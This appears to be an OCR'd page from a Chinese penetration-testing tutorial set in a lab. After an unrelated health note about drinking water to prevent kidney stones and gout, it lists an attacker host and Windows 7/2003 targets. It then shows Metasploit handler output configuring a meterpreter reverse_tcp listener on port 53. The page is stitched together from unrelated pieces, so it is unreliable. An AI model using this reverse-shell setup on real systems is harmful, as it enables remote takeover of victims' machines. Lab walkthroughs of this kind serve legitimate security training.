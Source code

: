 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**攻击机：**   
192.168.1.5 Debian  
**靶机：**   
192.168.1.4 Windows 7  
192.168.1.119 Windows 2003

### 攻击机配置：

payload：windows/meterpreter/reverse_tcp
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.5 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53 
```
![](media/05b541c239afdafa628b0ef194eddcb7.jpg)
